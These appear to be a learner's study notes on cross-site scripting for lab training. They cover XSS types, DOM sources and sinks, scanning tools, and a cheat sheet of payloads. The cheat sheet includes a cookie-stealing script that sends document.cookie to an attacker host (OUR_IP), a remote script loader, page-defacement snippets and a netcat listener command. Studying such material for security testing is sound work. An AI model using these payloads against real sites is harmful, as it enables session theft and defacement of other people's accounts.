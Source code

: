 # Cross Site Scripting (XSS) Notes

Execution of JavaScript code in an input field. Inherently a client focused vulnerability and can be equated to a medium risk.

|Type| 	Description|
|:----|:----|
|Stored (Persistent) XSS 	|The most critical type of XSS, which occurs when user input is stored on the back-end database and then displayed upon retrieval (e.g., posts or comments)|
|Reflected (Non-Persistent) XSS 	|Occurs when user input is displayed on the page after being processed by the backend server, but without being stored (e.g., search result or error message)|
|DOM-based XSS 	|Another Non-Persistent XSS type that occurs when user input is directly shown in the browser and is completely processed on the client-side, without reaching the back-end server (e.g., through client-side HTTP parameters or anchor tags)|

## Cheat Sheet

|Code 	|Description|
|:----|:----|
|XSS| Payloads 	|
|<script>alert(window.origin)</script> 	|Basic XSS Payload|
|<plaintext> |	Basic XSS Payload|
|<script>print()</script> |	Basic XSS Payload|
|\<img src="" onerror=alert(window.origin)> 	|HTML-based XSS Payload|
|<script>document.body.style.background = "#141d2b"</script> 	|Change Background Color|
|<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script> |	Change Background Image|
|<script>document.title = 'HackTheBox Academy'</script> 	|Change Website Title|
|<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script> 	|Overwrite website's main body|
|<script>document.getElementById('urlform').remove();</script> 	|Remove certain HTML element|
|<script src="http://OUR_IP/script.js"></script>| 	Load remote script|
|<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script> 	|Send Cookie details to us
Commands 	|
|python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 	|Run xsstrike on a url parameter|
|sudo nc -lvnp 80 	|Start netcat listener|
|sudo php -S 0.0.0.0:80 	|Start PHP server|


## Stored XSS

If the value gets stored in say the DB and is pulled up for any user it's stored.

Typical payload
```
<script>alert('1')</script>
```

## Reflected XSS

Only displayed for the current user, usually from input placed in. Perfect for phishing or csrf type of attacks.

Display cookie values

```
<script>alert(document.cookie)</script>
```

## DOM XSS

While reflected XSS sends the input data to the back-end server through HTTP requests, DOM XSS is completely processed on the client-side through JavaScript. DOM XSS occurs when JavaScript is used to change the page source through the Document Object Model (DOM).

For DOM XSS there are two definitions to understand. The `Source` is the JavaScript object that takes the user input, and it can be any input parameter. The `Sink` is the function that writes the user input to a DOM Object. If the Sink doesn't properly sanitize the input we could get XSS. Common DOM objects:
- document.write()
- DOM.innerHTML
- DOM.outerHTML

JQuery functions that write to the DOM:
- add()
- after()
- append()

Other payload

```
<img src="" onerror=alert(window.origin)>
```

## XSS Discovery 

### Automated

We can use automated tools like Nessus, Burp Pro, or ZAP

Some of the common open-source tools that can assist us in XSS discovery are [XSS Strike](https://github.com/s0md3v/XSStrike), [Brute XSS](https://github.com/rajeshmajumdar/BruteXSS), and [XSSer](https://github.com/epsylon/xsser). We can try XSS Strike by cloning it to our VM with git clone

```
git clone https://github.com/s0md3v/XSStrike.git
cd XSStrike
pip install -r requirements.txt
python xsstrike.py
python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test" 
```

### Manual

Payload lists: 
- [Payloadallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md)
- [xss-payload-list](https://github.com/payloadbox/xss-payload-list)

Using fuzzers like ffuf we can take these lists and test parameters like this.


### Code Review

Reviewing code would be the quickest way to check, but requires access to the code for it to work. 

